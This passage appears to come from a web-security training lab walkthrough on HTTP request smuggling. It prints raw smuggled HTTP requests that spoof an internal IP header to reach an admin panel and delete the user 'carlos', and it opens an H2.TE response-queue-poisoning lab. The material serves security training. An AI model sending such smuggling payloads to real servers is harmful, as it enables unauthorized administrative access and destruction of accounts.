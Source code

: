     0  
      
    POST / HTTP/1.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 200  
    Connection: close  
      
    search=test`
4.  The second response should contain "Search results for" followed by the start of a rewritten HTTP request.
5.  Make a note of the name of the `X-*-IP` header in the rewritten request, and use it to access the admin panel:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 143  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    X-abcdef-Ip: 127.0.0.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
    Connection: close  
      
    x=1`
6.  Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 166  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin/delete?username=carlos HTTP/1.1  
    X-abcdef-Ip: 127.0.0.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
    Connection: close  
      
    x=1`

### Lab: Response queue poisoning via H2.TE request smuggling

**Note**

This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).

